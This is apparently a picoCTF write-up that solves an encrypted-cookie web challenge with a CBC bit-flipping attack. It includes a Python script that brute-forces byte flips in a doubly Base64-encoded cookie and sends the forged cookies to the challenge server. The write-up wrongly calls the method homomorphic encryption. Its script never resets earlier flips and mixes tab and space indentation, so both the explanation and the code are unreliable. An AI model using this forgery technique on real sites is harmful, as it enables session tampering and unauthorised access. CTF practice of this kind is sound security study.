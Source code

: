 ```yaml
---
description: 'Author: madStacks'
---
```


## Problem Description

I forgot Cookies can Be modified Client-side, so now I decided to encrypt them! [http://mercury.picoctf.net:10868/](http://mercury.picoctf.net:10868/)

# Solution

![](/assets_md/Pasted%20image%2020220527163955.png)

![](/assets_md/Pasted%20image%2020220527172003.png)


**Decoding Base64**

```bash
[Ishikawa WebExploitation] $ echo 'SXNGUEd3SFhpZFFKTDJBME5IZ3BsaW1RV0FjQm93eVB6ZmZrbS9yaVVtdnNkYzNtNkQrY3cwbE1tSWE4QzgvR2ZEdVNKaHRlWXhEZWNKS2E2OUEvSkV0VkNOZE9iQUxjcjRuV0JTNzE4QWQ3VjVaNlk0NFp1SHB2dnhHTVJYaVU=' | base64 -d
IsFPGwHXidQJL2A0NHgplimQWAcBowyPzffkm/riUmvsdc3m6D+cw0lMmIa8C8/GfDuSJhteYxDecJKa69A/JEtVCNdObALcr4nWBS718Ad7V5Z6Y44ZuHpvvxGMRXiU                 
```

**Using Homomorphic Encryption**

Homomorphic encryption is a new type of encryption which allows to perform computation without decrypting data.

### [CBC Bit-Flip Attack](https://zhangzeyu2001.medium.com/attacking-cbc-mode-bit-flipping-7e0a1c185511)

Example : [AES-CBC bit flipping Attack by dr3dd](https://dr3dd.gitlab.io/cryptography/2019/01/10/simple-AES-CBC-bit-flipping-attack/)

**Exploit Code**

```python
import requests
from base64 import b64encode, b64decode
from tqdm import tqdm
from queue import Queue

cookie_str = 'VHR0WUVlRk0wLzhUR00xTC8yS2FsSEU1MU5OaGUrM3lEaWxxVXo4TktjTmN6cVlYSy9QbjJVS0dLR2tUbVdOS1lCU3E2TU1BbGxPMnk2aXhSeUtuRWQ4VE52WDh1VjNscmYvZ3FpQ2dEWFZmd1UrdmpMRUtQWjhBQlZPUkdrWFk='
url = 'http://mercury.picoctf.net:10868/'

# cookie in encoded 2 times 
b64_cookie = b64decode(cookie_str).decode()
raw_cookie = bytearray(b64decode(b64_cookie))

flip_set = Queue()

def fetch_query(position, bit):

    raw_cookie[position] = raw_cookie[position]^bit
    forge_b64 = b64encode(b64encode(bytes(raw_cookie))).decode()

    req = requests.get(url, cookies={'auth_name': forge_b64})

    if 'picoCTF{' in req.content.decode():
        print(f"Cookie found @ {position}:{bit} : ", end='')
        print(req.text.split('code>')[1].split('</')[0])
        global flip_set

        while not flip_set.empty():
            flip_set.get_nowait()


def main():

    # fliping up to 16 positions 
    for i in range(16):
        # fliping upto 128 bits XOR with up to 128 values in ASCII Table
        for j in range(128):
            flip_set.put((i,j))


    for _ in tqdm(range(flip_set.qsize()), desc="Attack Progress :"):
		if not flip_set.empty():
			pos, bit =  flip_set.get_nowait()
			fetch_query(pos, bit)
			flip_set.task_done()

main()
```

![](/assets_md/Pasted%20image%2020220529102107.png)

